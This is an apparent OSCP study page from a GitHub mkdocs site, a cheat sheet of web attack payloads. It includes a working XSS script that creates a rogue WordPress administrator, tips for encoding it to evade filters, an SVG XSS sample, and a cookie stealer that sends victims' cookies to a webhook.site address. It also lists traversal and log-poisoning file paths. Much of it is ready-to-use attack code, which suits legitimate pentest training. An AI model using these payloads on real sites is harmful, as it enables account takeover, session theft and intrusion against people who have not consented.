

repository: PakCyberbot/OSCP-Notes-and-Environment · page: 11_Code_And_Exploits/index.html · generator: mkdocs

# 💥 Code & Exploits CheatSheet

### Online Resources:
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [PayloadPlayground](https://payloadplayground.com/)
- [revshells](https://www.revshells.com/)

## 🕸Web Attack Payloads
### XSS
- [Hakluke weaponized XSS payloads](https://github.com/hakluke/weaponised-XSS-payloads)


- if **secure** enabled then cookies are sent through encrypted traffic
- if **httponly** means javascript can't access cookies
- if we can't access cookies then we can try to perform any malcious actions on behalf of our victim user like adding new user for us in the wordpress
[jscompress](https://jscompress.com/)
### Test Characters
```javascript
< > ' " { } ;   // if any symbol comes unfiltered
```

#### Create New Admin on WordPress
- [**Reference:** Craft XSS Payload to create new admin user in Wordpress](https://shift8web.ca/craft-xss-payload-create-admin-user-in-wordpress-user/)

```javascript
var ajaxRequest = new XMLHttpRequest(),
    requestURL = "/wp-admin/user-new.php",
    nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, !1), ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText),
    nonce = nonceMatch[1],
    params = "action=createuser&_wpnonce_create-user=" + nonce + "&user_login=attacker&email=attacker@site.com&pass1=attacker&pass2=attacker&role=administrator";
(ajaxRequest = new XMLHttpRequest()).open("POST", requestURL, !0), ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"), ajaxRequest.send(params);
```

- Minify the code first then encode it to charCode decimal to avoid badchar issue
- [cyberchef (toDecimal)](https://cyberchef.io/#recipe=To_Decimal('Comma',false))
- Then deliver the below payload

```html
<script>eval(String.fromCharCode(118,97,114,32,97,....))</script>
```
#### XSS through SVG
```xml
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400" viewBox="0 0 124 124" fill="none">
<rect width="124" height="124" rx="24" fill="#000000"/>
   <script type="text/javascript">  
      alert(0x539);
   </script>
</svg>
```
#### Cookie Stealer
```html
<html>
	<body>
		<!-- Hello world! -->
		<script type="text/javascript">
			document.location='https://webhook.site/106ea26d-f0b2-4d07-961a-e2129e035a84?c='+encodeURIComponent(btoa(document.cookie));
		</script>
	</body>
</html>
```
### Directory Traversal 
```
LINUX
/etc/psswd

WINDOWS
C:\Windows\System32\drivers\etc\hosts
C:\inetpub\logs\LogFiles\W3SVC1\
C:\inetpub\wwwroot\web.config
```

### Local File Inclusion
- [LFI Linux List](https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt)
- [Windows List](https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-windows-list.txt)
#### RCE using LFI through Log poisoning
Check the log files and then check which entry can be poisoned through which language(depends on the webserver)
```
/var/log/apache2/access.log

C:\xampp\apache\logs\access.log
```
